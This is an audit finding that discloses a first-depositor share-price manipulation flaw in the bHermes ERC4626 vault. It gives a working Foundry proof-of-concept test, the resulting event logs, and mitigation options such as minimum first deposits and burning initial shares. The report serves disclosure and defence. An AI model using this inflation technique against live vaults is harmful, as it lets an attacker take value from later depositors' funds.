# Medium Severity
## Title
bHermes vault is succeptible to first depositor price share manipulation

## Solodit Resources
- [Underlying assets stealing in AutoPxGmx and AutoPxGlp via share price manipulation](https://solodit.xyz/issues/6036)

## Impact
- First depositor can manipulate the price of the shares at will, forcing new depositors to pay more Hermes for the same amount of shares that the first depositor paid

## Proof of Concept
ERC4626 vaults are subject to a share price manipulation attack.
Consider this scenario:
1. Alice is the first depositor of the bHermes vault;
2. Alice deposits 1 wei of hermes tokens;
3. since Alice is the first depositor (totalSupply is 0), she gets 1 share (1 wei);
4. Alice then sends 9999999999999999999 hermes tokens (10e18 - 1) to the vault;
the price of 1 share is 10 hermes tokens now: Alice is the only depositor in the vault, she's holding 1 wei of shares, and the balance of the pool is 10 hermes tokens;
5. Bob deposits 19 hermes tokens and gets only 1 share due to the rounding in the convertToShares function: 19e18 * 1 / 10e18 == 1;

**PoC to demonstrate how the price manipulation attack is performed on the bHermes vault**
- Used the test file `test/hermes/bHermesTest.t.sol` file as the base for this PoC
  - Make sure to add the below lines that are required to use the Fondry Cheatcodes
```solidity
// SPDX-License-Identifier: AGPL-3.0-only
pragma solidity ^0.8.0;
... //imports
+ import "forge-std/Test.sol";
contract bHermesTest is DSTestPlus {
+   Vm vm = Vm(HEVM_ADDRESS);
...
...
}

```

  - The below function is the PoC itself:
```solidity
function testPriceManipulationbHermesPoC() public {

    //@note hermes is the underlying token
    //@note bHermes is the vault (ERC4626DepositOnly)

    address alice = address(0x31337);
    address bob = address(0x12345);

    vm.label(alice, "Alice");
    vm.label(bob, "Bob");


    hermes.mint(alice, 10e18);
    hermes.mint(bob, 19e18);

    vm.startPrank(alice);
    hermes.approve(address(bHermes), 1);
    // Alice deposits 1 wei of hermes and gets 1 wei of shares.
    uint256 aliceShareAmount = bHermes.deposit(1, alice);
    vm.stopPrank();

    assertEq(bHermes.previewDeposit(1), aliceShareAmount);
    assertEq(bHermes.convertToAssets(bHermes.balanceOf(alice)), 1);

    vm.startPrank(alice);
    // Alice sends 10e18-1 of hermes and sets the price of 1 wei of shares to 10e18 hermes.
    hermes.transfer(address(bHermes), 10e18-1);
    vm.stopPrank();


    vm.startPrank(bob);
    hermes.approve(address(bHermes), 19e18);
    // Bob deposits 19e18 of hermes and gets 1 wei of shares due to rounding and the price manipulation.
    uint256 bobShareAmount = bHermes.deposit(19e18, bob);
    vm.stopPrank(); 

    assertEq(bHermes.previewDeposit(19e18), bobShareAmount);
    // assertEq(bHermes.convertToAssets(bHermes.balanceOf(bob)), 19e18);

    assertEq(bHermes.convertToAssets(bHermes.balanceOf(alice)), 14.5e18);
    assertEq(bHermes.convertToAssets(bHermes.balanceOf(bob)), 14.5e18);

    //Alice got 1 wei of shares for 10e18 hermes
    //Bob got 1 wei of shares for 19e18 hermes

}
```

- The result of the PoC is:
  - Alice got 1 wei of shares for 10e18 hermes
  - Bob got 1 wei of shares for 19e18 hermes

    - From the logs of running the PoC:
      - Alice spends 10e18 hermes and got 1 wei of shares
        - ```emit Deposit(caller: Alice: [0x0000000000000000000000000000000000031337], owner: Alice: [0x0000000000000000000000000000000000031337], assets: 1, shares: 1)```
        - ```emit Transfer(from: Alice: [0x0000000000000000000000000000000000031337], to: bHermes: [0xF62849F9A0B5Bf2913b396098F7c7019b51A820a], amount: 9999999999999999999)```
      - Bob spends 19e18 hermes and got 1 wei of shares
        - ```emit Deposit(caller: Bob: [0x0000000000000000000000000000000000012345], owner: Bob: [0x0000000000000000000000000000000000012345], assets: 19000000000000000000, shares: 1)```

## Tools Used
Manual Audit

## Recommended Mitigation Steps
Consider either of these options:
- In the deposit function, consider requiring a reasonably high minimal amount of assets during first deposit. The amount needs to be high enough to mint many shares to reduce the rounding error and low enough to be affordable to users.
- Consider seeding the pools during deployment. This needs to be done in the deployment transactions to avoiding front-running attacks. The amount needs to be high enough to reduce the rounding error.
- Consider sending first 1000 wei of shares to the zero address. This will significantly increase the cost of the attack by forcing an attacker to pay 1000 times of the share price they want to set. For a well-intended user, 1000 wei of shares is a negligible amount that won't diminish their share significantly. 